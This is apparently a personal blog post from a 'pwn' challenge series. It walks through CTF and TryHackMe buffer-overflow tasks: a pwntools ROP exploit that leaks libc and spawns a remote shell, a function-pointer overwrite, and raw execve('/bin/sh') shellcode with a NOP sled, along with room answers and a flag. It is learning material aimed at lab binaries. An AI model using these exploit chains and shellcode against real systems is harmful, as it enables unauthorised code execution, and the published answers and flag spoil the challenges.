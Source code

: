 ```yaml
---
layout: post
title:  "Tryhackme Day Six"
date:   2020-07-06 20:05:48 +0100
categories: pwn
---
```


Here is day six of the 30 days of pwn challenge. Today we will be looking through a remote 'rop' challenge which will involve leaking a libc version to get "/bin/sh" and other offsets to get a shell on a machine.

After this I will look at some of the basic challenges on TryHackMe.

## Remote ROP

This challenge was heavily aided by the content found [here](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address) as it helped show how to leak a libc version on a remote file.


Leaking libc address:
```
[*] Leaked libc address,  puts: 0x7f6db1a9b690
```
Finding libc version using [libc-database](https://github.com/niklasb/libc-database)
```
./find puts 0x7f6db1a9b690

ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```
Now we can download the libc version and use it in our script with:
```
libc = ELF("/opt/libc-database/libs/libc6_2.23-0ubuntu10_amd64/libc.so.6")
```
Now we have the libc version, we can use pwntools to find the rest of the addresses we need:
```
BINSH = next(libc.search("/bin/sh")) - 64 #Use -64 if you get the "%s%s%s%s%s not found" error
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]
PUT = libc.sym["puts"]

log.info("/bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
Now we have everything we need and can get a shell on the machine.

### Exploit Code
```
from pwn import *

r = process('rop_challenge')

p = remote("127.0.0.1", 1337)
OFFSET =  'A' * 72

elf = ELF('rop_challenge')
rop = ROP('rop_challenge')
libc = ELF("/opt/libc-database/libs/libc6_2.23-0ubuntu10_amd64/libc.so.6")

PUTS_PLT = elf.plt['puts'] 
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] 
RET = (rop.find_gadget(['ret']))[0]

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    
    return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base

BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]
PUT = libc.sym["puts"]

rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
p.clean()
p.sendline(rop2)

p.interactive()
```

## TryHackMe

Now we can go onto what was intended for today (I was happy to have learned to do the challenge I did yesterday so I had to throw it in!), Tryhackme has a few buffer overflow challenges that we will go through. 

To start off we will do the challenge found [here](https://tryhackme.com/room/bof1)

### Task6
**Question 1** 	
What is the minimum number of characters needed to overwrite the variable?
```
The offset is 15
```
### Task7
**Question 1**
Invoke the special function()

**Func-pointer.c**
```
void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
```

### Exploit Code
```
import struct
special = struct.pack("<Q",0x0000000000400567)

print 'A' * 14 + special
```
```
python exploit.py | ./func-pointer 

this is the special function
you did this, friend!
```

### Task8
**Buffer-overflow.c**
```
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

This challenge is using a basic stack buffer overflow. I initially tried to do a ret2libc attack on this binary, but I think there was a null-byte issue (I think I heard somewhere that strcpy stops on null byte.)


### Exploit Code
```
import struct

shellcode = "\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05"
shellcode_len = len(shellcode)
stack_addr = struct.pack("<Q",0x7fffffffe24a+60)
offset = 152
junk = 12

payload = '\x90' * (offset - shellcode_len - junk) + shellcode + 'A' * junk + stack_addr

print payload
```

**Use the above method to open a shell and read the contents of the secret.txt file.**
```
omgyoudidthissocool!!
```

A short day again?! Blasphemy. Well, tomorrow I will be heading to the windows buffer-overflow machines and as this might take some time, I will save it for a fresh post tomorrow. The 2 machines are the OSCP-like "Brainstorm" and "Brainpan".